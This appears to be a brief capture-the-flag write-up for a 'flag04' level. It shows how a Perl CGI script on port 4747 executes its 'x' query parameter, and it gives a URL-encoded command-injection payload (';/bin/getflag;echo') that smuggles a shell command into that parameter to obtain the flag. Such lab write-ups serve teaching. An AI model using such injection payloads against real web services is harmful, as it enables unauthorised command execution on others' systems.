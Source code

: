 # flag04

We are given a port (`4747`) and a perl CGI script which runs whatever is provided in its query param `x`.

We can go to `http://<ip>:4747/?x=hi` and see that it prints `hi`.

Let's URL-encode a shell pipeline( `;/bin/getflag;echo` -> `%3B%2Fbin%2Fgetflag%3Becho`) and append it to the URL.

`http://<ip>:4747/?x=%3B%2Fbin%2Fgetflag%3Becho`

We are now given the flag 04 and can login as `level05`.
